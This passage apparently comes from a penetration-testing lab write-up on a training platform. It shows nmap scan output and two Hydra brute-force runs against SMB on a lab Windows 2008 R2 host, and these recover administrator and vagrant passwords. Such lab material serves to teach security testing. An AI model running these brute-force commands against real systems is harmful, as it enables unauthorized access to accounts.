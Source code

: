 ```
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.79 seconds
```

```
root@attackdefense:~# hydra -l administrator -P /usr/share/wordlists/metasploit/unix_users.txt 10.0.31.177 smb
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-05 12:25:35
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 168 login tries (l:1/p:168), ~168 tries per task
[DATA] attacking smb://10.0.31.177:445/
[445][smb] host: 10.0.31.177   login: administrator   password: vagrant
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-05 12:25:38
```

```
root@attackdefense:~# hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.0.31.177 smb
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-05 12:28:01
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 168 login tries (l:1/p:168), ~168 tries per task
[DATA] attacking smb://10.0.31.177:445/
[445][smb] host: 10.0.31.177   login: vagrant   password: vagrant
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-05 12:28:03
```

```
[445][smb] host: 10.0.31.177   login: administrator   password: vagrant
[445][smb] host: 10.0.31.177   login: vagrant   password: vagrant
```

```
3389/tcp open  ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: VAGRANT-2008R2
|   NetBIOS_Domain_Name: VAGRANT-2008R2
|   NetBIOS_Computer_Name: VAGRANT-2008R2
|   DNS_Domain_Name: vagrant-2008R2
|   DNS_Computer_Name: vagrant-2008R2
|   Product_Version: 6.1.7601
|_  System_Time: 2023-04-28T09:05:32+00:00
| ssl-cert: Subject: commonName=vagrant-2008R2
| Not valid before: 2023-04-27T08:53:45
|_Not valid after:  2023-10-27T08:53:45
|_ssl-date: 2023-04-28T09:05:42+00:00; 0s from scanner time.
```
